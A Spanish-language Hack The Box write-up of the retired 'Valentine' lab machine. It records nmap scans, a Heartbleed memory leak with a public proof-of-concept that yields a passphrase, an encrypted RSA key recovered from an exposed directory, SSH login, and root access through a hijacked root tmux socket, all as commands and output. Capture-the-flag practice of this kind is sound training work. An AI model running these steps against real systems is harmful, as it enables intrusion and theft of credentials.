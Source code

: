 ```yaml
---
layout: post
title:  "OSCP Path ~ Valentine de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada VALENTINE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Cifrado Decimal, Cifrado Hex, Dovecot, Maquinas Retiradas, Writeup, Hacking
---
```


# Valentine ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10. 79      "
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-05-04T17:49:21+00:00; +1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Lanzamos el script de `http-enum.nse`:
```bash
# nmap --script http-enum -p80,443 10.10.10.79 -oN Webscan                                                                        

PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  https
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
```
Vamos a proseguir lanzando scripts de nmap para identificar vulnerabilidades:
```bash
# nmap --script ssl-heartbleed.nse -p22,80,443 10.10.10.79 -oN HeartbleetScan 

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 
```
# Definicion de Heartbleed
Heartbleed (español:  hemorragia de corazón) es un agujero de seguridad de software en la  biblioteca de código abierto OpenSSL,
solo vulnerable en su versión  1.0.1f, que permite a un atacante leer la memoria de un servidor o un  cliente, permitiéndole por ejemplo,
conseguir las claves privadas SSL de  un servidor.

Podriamos a ver conseguido ver que es vulnerable lanzando el siguiente comando tambien basado en cateegorias de scripts de nmap
```bash
nmap --script “vuln and safe” 10.10.10.79 -oN ScanManchine
```

# Explotando Heartbleed
Exploit funcional de Heartbleet
https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
Lo descargamos y Lo usamos de la siguiente forma:

Donde `-n` es para el `numero de ataques/peticiones` 
Y `-f` para `guardar el resultado` en un `archivo` de output.

```bash
─# python heartbleed-poc.py 10.10.10.79 -n 150 -f heardbleed_out.txt
```
Conseguimos sacar atraves del exploit una cadena de nbase 64 que anotamos en hases como contraseña.
```bash
# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d                 
"heartbleedbelievethehype"
```
Chequeamos la web en las rutas que script `http-enum` nos habia enumerado.
En la ruta `http://10.10.10.79/dev/`
Encontramos un directory listing con dos archivos
```bash
hype_key
notes.txt
```
Aqui encontramos un archivo en formato `HEX` que reverseamos con el comando `xxd -ps -r` y le pasamos el archivo almacenado con nombre `hex`.
```bash
# xxd -ps -r hex 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY----- 
```
Credenciales: User - `hype` 
Procedemos a intentar conectarnos por `SSH` con las credenciales obtenidas y la `id_rsa`
```bash
# ssh -i id_rsa hype@10.10.10.79             
Enter passphrase for key 'id_rsa':  
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd2xxxxxxxxxxxxxxx
```
Conseguimos conectarnos y conseguimos la flag del `user.txt`

# Escalada de Privilegios
Procedemos a enumerar un poco el sistema con comandos basicos:
Usamos el comando `ìd` para ver los grupos a los que pertenece el usuario `hype` 
```bash
hype@Valentine:~/Desktop$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
```
Usamos el comando `uname -a` para sacar informacion sobre el sistema
```bash
hype@Valentine:~/Desktop$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
Vemos si tiene algun puerto relevante internamente con el comando `netstat -antp`
```bash
hype@Valentine:~/Desktop$ netstat -antp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0    488 10.10.10.79:22          10.10.16.132:49820      ESTABLISHED -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -  
```
Procedemos a realizar uso del comando `ps -aux` para listar los comandos que se estan ejecutando a nivel de sistema.
Encontramos una session de `tmux` en la ruta `/.devs/dev_sess` en los procesos. Intentamos apuntar a ella.
```bash
hype@Valentine:~/Desktop$ ps -aux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root       1017  0.0  0.1  26416  1672 ?        Ss   05:10   0:00 /usr/bin/tmux -S /.devs/dev_sess
```
Conseguimos acceder al directorio `/.devs` y procedemos a intentar apropiarnos de la sesion de `tmux`
```bash
hype@Valentine:~/Desktop$ cd /.devs/
hype@Valentine:/.devs$ ls
dev_sess
```
Nos conseguimos apropiar de la session correctamente y vemos que ya somos `root`.
```bash
hype@Valentine:/.devs$ tmux -S dev_sess
```
Sacamos la flag de root
```bash
root@Valentine:/.devs# whoami
root
root@Valentine:/.devs# cat /root/root.txt
f1bb6d759df1f272914exxxxxxxxxxxxx
```

Maquina Rooteada =D 
